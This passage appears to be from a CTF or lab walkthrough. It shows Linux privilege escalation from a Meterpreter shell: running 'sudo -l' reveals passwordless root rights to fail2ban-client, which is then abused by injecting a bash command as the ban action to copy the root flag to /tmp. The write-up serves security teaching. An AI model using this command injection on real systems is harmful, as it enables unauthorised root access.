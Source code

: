 ### Check sudo permissions:

`sudo -l` is a powerful Linux command used to **list all the commands a user is allowed (or not allowed) to run using `sudo`**, which is crucial during **privilege escalation** in red teaming or CTFs.

We have transitioned to the Meterpreter shell. Now, let’s navigate through the system to find the possible user.txt file:

```
sudo -l
```

![image.png](image%2012.png)

**Output:**

```
(ALL) NOPASSWD: /usr/bin/fail2ban-client
```

This meant we could run `fail2ban-client` as root without providing a password.

### What is Fail2Ban?

Fail2Ban is an intrusion prevention framework that scans log files and bans IPs showing malicious signs. It uses `actionban` commands to apply bans  these are executed with root privileges.

### Step 6: Abusing Fail2Ban for Root Access

If we check the status of fail2ban-client, we see 8 jails (configurations)

![image.png](image%2013.png)

We inject a command into Fail2Ban to copy the root flag to a readable location:

```
sudo /usr/bin/fail2ban-client set sshd action iptables-multiport actionban "/bin/bash -c 'cat /root/root.txt > /tmp/flag.txt && chmod 777 /tmp/flag.txt'"
sudo /usr/bin/fail2ban-client set sshd banip 127.0.0.1
cat /tmp/flag.txt
```
